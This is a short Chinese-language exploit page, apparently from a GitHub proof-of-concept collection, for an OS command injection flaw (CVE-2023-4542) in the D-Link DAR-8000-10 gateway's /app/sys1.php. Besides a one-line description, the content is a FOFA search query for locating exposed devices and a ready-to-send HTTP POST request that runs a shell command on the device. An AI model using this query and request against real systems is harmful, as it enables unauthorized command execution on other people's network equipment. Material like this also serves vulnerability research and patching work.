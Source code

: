 ## D-Link_DAR-8000操作系统命令注入漏洞(CVE-2023-4542)

D-Link DAR-8000是中国友讯（D-Link）公司的上网行为审计网关。

D-Link DAR-8000-10版本存在操作系统命令注入漏洞，该漏洞源于文件/app/sys1.php的参数id会导致操作系统命令注入。

![c28cb815357f9d7746051855c037606e](../../images/ce09a764-517f-449d-8296-97a315b590ba.png)

## fofa
```
body="DAR-8000-10" && title="D-Link"
```

## poc
```
POST /app/sys1.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

cmd=id
```
![532f25d46e25fe6fb6ceff1b97beb88f](../../images/4ac6df4e-d49c-43ee-83f2-e49ce8f7db3b.png)
